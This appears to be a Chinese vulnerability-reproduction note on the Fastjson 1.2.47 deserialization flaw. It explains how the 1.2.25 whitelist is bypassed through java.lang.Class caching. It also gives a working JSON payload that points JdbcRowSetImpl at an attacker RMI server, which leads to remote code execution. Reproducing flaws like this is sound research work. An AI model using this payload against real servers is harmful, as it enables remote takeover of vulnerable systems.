




# Fastjson1.2.47
## 环境搭建
[搭建方法](../../../arsenal/environment-setup/java-cve-debug.md)



## 1.2.25补丁修复

**限制了 @type 加载的类必须是白名单中的类**

**使用1.2.24的payload测试**



利用不成功

**绕过**

利用 java.lang.Class 加载任意类到缓存，然后从缓存中获取恶意类，绕过了白名单检查

**实现原理**

- 第一步：{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"}
   
- 第二步：{"@type":"com.sun.rowset.JdbcRowSetImpl",...}
   
- 再次加载JdbcRowSetImpl类，因为之前加载过，所以这次直接从缓存中加载，绕过安全检查

## 漏洞复现

**开启RMI服务**



**payload**

```
{
    "a": {
        "@type": "java.lang.Class",
        "val": "com.sun.rowset.JdbcRowSetImpl"
    },
    "b": {
        "@type": "com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName": "rmi://192.168.162.1:1099/8cfyy0",
        "autoCommit": true
    }
}
```

**注入payload**



漏洞利用成功

## 调试追踪方法调用

**设置断点**

```

```